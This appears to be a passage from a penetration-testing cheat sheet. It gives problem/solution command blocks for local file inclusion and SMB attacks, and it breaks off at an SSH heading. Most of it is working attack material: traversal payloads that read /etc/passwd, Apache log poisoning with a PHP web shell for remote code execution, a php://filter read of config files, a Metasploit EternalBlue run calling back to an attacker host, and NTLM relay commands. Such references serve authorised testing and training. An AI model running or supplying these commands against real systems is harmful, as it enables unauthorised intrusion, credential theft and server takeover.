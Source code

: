 ### Local File Inclusion (LFI) Exploitation
**Problem**: Exploiting LFI vulnerabilities to read sensitive files

**Solution**:
```bash
# 1. Basic LFI testing
http://target.com/page.php?file=../../../etc/passwd
http://target.com/page.php?file=....//....//....//etc/passwd

# 2. Windows LFI
http://target.com/page.php?file=../../../windows/system32/drivers/etc/hosts

# 3. Log poisoning for RCE
# Poison Apache access logs
curl -A "<?php system($_GET['cmd']); ?>" http://target.com/
http://target.com/page.php?file=../../../var/log/apache2/access.log&cmd=whoami

# 4. PHP wrapper exploitation
http://target.com/page.php?file=php://filter/convert.base64-encode/resource=config.php
```

## Network Penetration Testing Solutions

### SMB Enumeration and Exploitation
**Problem**: Enumerating and exploiting SMB services

**Solution**:
```bash
# 1. SMB enumeration
nmap -p 445 --script smb-enum-shares,smb-enum-users target_ip
smbclient -L //target_ip -N
enum4linux target_ip

# 2. SMB null session
smbclient //target_ip/share -N
rpcclient -U "" target_ip

# 3. EternalBlue exploitation (MS17-010)
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target_ip
set LHOST attacker_ip
exploit

# 4. SMB relay attack
responder -I eth0 -wrf
ntlmrelayx.py -tf targets.txt -smb2support
```

### SSH Penetration Testing
**Problem**: Testing SSH services for vulnerabilities
